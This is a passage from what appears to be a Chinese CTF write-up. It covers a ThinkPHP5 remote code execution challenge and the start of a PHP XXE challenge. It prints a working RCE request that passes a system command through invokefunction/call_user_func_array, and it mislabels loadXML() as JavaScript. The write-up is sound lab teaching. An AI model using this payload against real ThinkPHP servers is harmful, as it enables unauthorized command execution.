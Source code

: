 搜索一下相关的漏洞，可以发现ThinkPHP5 存在远程代码执行漏洞<br />![image.png](./images/20231018_0002051001.png)<br />安装网上的poc进行解题
```python
?s=index/\think\app/invokefunction
&function=call_user_func_array
&vars[0]=system
&vars[1][]=ls /tmp
```
执行env命令，在环境变量中找到flag<br />![image.png](./images/20231018_0002062367.png)
# 听说php有一个xxe
尝试访问/hint<br />![image.png](./images/20231018_0002079936.png)<br />下载下来一个文件，告诉我们漏洞在dom.php<br />![image.png](./images/20231018_0002081539.png)<br />访问页面是这样的，可以看见loadXML()<br />![image.png](./images/20231018_0002097520.png)<br />loadXML()是javascript一个方法，可以解析XML标签字符串<br />直接传入构造的恶意XML来读取文件